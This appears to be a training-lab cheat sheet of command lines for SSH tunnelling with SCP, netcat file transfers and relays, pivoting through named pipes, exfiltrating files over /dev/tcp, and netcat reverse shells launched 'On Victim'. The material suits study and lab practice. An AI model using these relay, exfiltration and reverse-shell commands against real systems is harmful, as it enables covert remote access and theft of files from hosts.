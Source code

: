 scp -P

----------------------------------------------------------------------------------------------------
SCP Syntax through a tunnel
Create a local port forward to target device
$ ssh student@172.16.82.106 -L 1111:localhost:22 -NT
Download a file from a remote directory to a local directory
$ scp -P 1111 student@localhost:secretstuff.txt /home/student
Upload a file to a remote directory from a local directory
$ scp -P 1111 secretstuff.txt student@localhost:/home/student

----------------------------------------------------------------------------------------------------
SCP Syntax through a Dynamic Port forward
Create a Dynamic Port Forward to target device
$ ssh student@172.16.82.106 -D 9050 -NT
Download a file from a remote directory to a local directory
$ proxychains scp student@localhost:secretstuff.txt .
Upload a file to a remote directory from a local directory
$ proxychains scp secretstuff.txt student@localhost:

----------------------------------------------------------------------------------------------------
NETCAT: Client to Listener file transfer
Listener (receive file):

nc -lvp 9001 > newfile.txt
Client (sends file):

nc 172.16.82.106 9001 < file.txt

----------------------------------------------------------------------------------------------------
NETCAT: Listener to Client file transfer
Listener (sends file):

nc -lvp 9001 < file.txt
Client (receive file):

nc 172.16.82.106 9001 > newfile.txt

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Listener - Listener

On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe
On Internet_Host (send):

$ nc 172.16.82.106 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc 192.168.1.1 3333 > newsecret.txt

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Client - Client

On Internet_Host (send):

$ nc -lvp 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc -lvp 3333 > newsecret.txt
On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc 192.168.1.10 3333 > mypipe

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Client - Listener

On Internet_Host (send):

$ nc -lvp 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc 192.168.1.1 3333 > newsecret.txt
On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc -lvp 3333 > mypipe

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Listener - Client

On Internet_Host (send):

$ nc 172.16.82.106 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc -lvp 3333 > newsecret.txt
On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc 192.168.1.10 3333 > mypipe

----------------------------------------------------------------------------------------------------
File Transfer with /dev/tcp
On the receiving box:

$ nc -lvp 1111 > devtcpfile.txt
On the sending box:

$ cat secret.txt > /dev/tcp/10.10.0.40/1111
This method is useful for a host that does not have NETCAT available.

----------------------------------------------------------------------------------------------------
Reverse shell using NETCAT
First listen for the shell on your device.

$ nc -lvp 9999
On Victim using -c :

$ nc -c /bin/bash 10.10.0.40 9999
On Victim using -e :

$ nc -e /bin/bash 10.10.0.40 9999


